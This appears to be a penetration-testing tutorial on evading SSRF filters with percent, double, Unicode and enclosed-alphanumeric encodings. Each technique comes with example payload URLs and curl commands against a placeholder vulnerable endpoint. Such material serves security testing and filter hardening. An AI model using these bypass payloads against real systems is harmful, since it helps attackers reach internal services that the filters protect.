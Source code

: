 ```yaml
---
title: Bypass Using Different Encoding Techniques
description: Learn how to bypass SSRF filters using various encoding techniques in
  URLs, such as percent, double, and Unicode encoding.
keywords:
- SSRF filters
- encoding techniques
- percent-encoding
- double encoding
- Unicode encoding
- filter evasion
- HTTP request
---
```


# Bypass Using Different Encoding

## Context

This article provides detailed guidance on bypassing Server-Side Request Forgery (SSRF) filters by employing various encoding techniques. This approach takes advantage of alternative encoding schemes that can disguise restricted keywords or addresses in HTTP requests, allowing them to slip past simplistic filtering mechanisms. To fully appreciate and implement these techniques, you should be familiar with URL encoding, character encoding, HTTP request structure, SSRF, and address trickery.

## Theory

### Encoding Schemes for Filter Evasion

Different encoding techniques play a crucial role in obfuscating restricted payloads:

- **Percent-encoding:** This replaces specific characters with a '%' symbol followed by their hexadecimal ASCII value. For instance, 'a' becomes '%61'.
- **Double encoding:** Applies percent-encoding twice, such that each character is encoded again. For example, 'a' becomes '%2561'.
- **Unicode encoding:** Uses Unicode representations to encode characters, such as using '\u0061' to represent 'a'.
- **Enclosed alphanumeric encoding:** This technique employs Unicode enclosed alphanumerics; for instance, 'A' can appear as U+24B6 or 'Ⓐ'.

### Filter Evasion via Encoding

Filters designed to block particular substrings or addresses might only decode user input once or miss variant encodings entirely:

- **Core Principle:** When input is decoded only once, filters can miss double-encoded or Unicode versions of restricted elements.
- **Attack Sequence:** Attackers transform usually blacklisted keywords or addresses into less recognizable forms using various encodings.
- **Filter Bypass Logic:** By converting restricted substrings, attackers can pass unrecognized forms through filters until the backend decodes them.

### Attacker Workflow: Encoding for SSRF

To execute these techniques effectively, attackers should:

1. **Identify** filter logic and pinpoint weaknesses concerning encoding through trial and error.
2. **Craft** payloads using alternative encodings to obscure restricted substrings or addresses.
3. **Submit** the encoded payloads carefully and observe how the backend responds to confirm successful filter bypass.

## Practice

### Bypassing SSRF Filters with Percent-Encoding Variants

In situations where a keyword or address is blacklisted, such as 'admin', attackers can use percent-encoding to obfuscate input.

- **Step 1:** Identify a blacklisted keyword or address (e.g., 'admin').
- **Step 2:** Use the payload format:
    ```http
    http://example.com/%61dmin
    ```
    Here, '%61' represents 'a', forming 'admin' after decoding.
- **Step 3:** Execute this using `curl`:
    ```bash
    curl 'http://vulnerable-app/ssrf?url=http://example.com/%61dmin'
    ```
    This sends the encoded payload to the SSRF endpoint for processing.

### Double Percent-Encoding for Filter Evasion

Double encoding is useful when a single decoding process is applied by the filter.

- **Step 1:** Craft a payload with double percent-encoding:
    ```http
    http://example.com/%2561dmin
    ```
    Here, '%2561' decodes first to '%61', which then further decodes to 'a'.
- **Step 2:** Use `curl` to send the request:
    ```bash
    curl 'http://vulnerable-app/ssrf?url=http://example.com/%2561dmin'
    ```
    Testing if the backend performs double-decoding and bypasses single-decoding filters.

### Unicode Encoding for SSRF Filter Bypass

Unicode encoding involves using Unicode representations to mask characters.

- **Step 1:** Prepare a Unicode-encoded payload:
    ```http
    http://example.com/\u0061dmin
    ```
    '\u0061' represents 'a'; some backend systems decode this automatically.
- **Step 2:** Submit the payload using `curl`:
    ```bash
    curl 'http://vulnerable-app/ssrf?url=http://example.com/\u0061dmin'
    ```
    Observing the backend's behavior when it receives a Unicode-encoded request.

### Enclosed Alphanumeric Unicode Encoding

This encoding is another layer to bypass filters by using alphanumeric Unicode points.

- **Step 1:** Deploy a payload with enclosed alphanumerics:
    ```http
    http://example.com/Ⓐdmin
    ```
    'Ⓐ' (U+24B6) might be normalized to 'A' by the backend.
- **Step 2:** Execute using `curl`:
    ```bash
    curl 'http://vulnerable-app/ssrf?url=http://example.com/Ⓐdmin'
    ```
    This determines whether the backend normalizes these representations into forbidden strings.

## Tools

- **curl** 
- **Burp Suite** 

These tools facilitate crafting and sending HTTP requests with different encoding strategies, demonstrating successful filter bypass.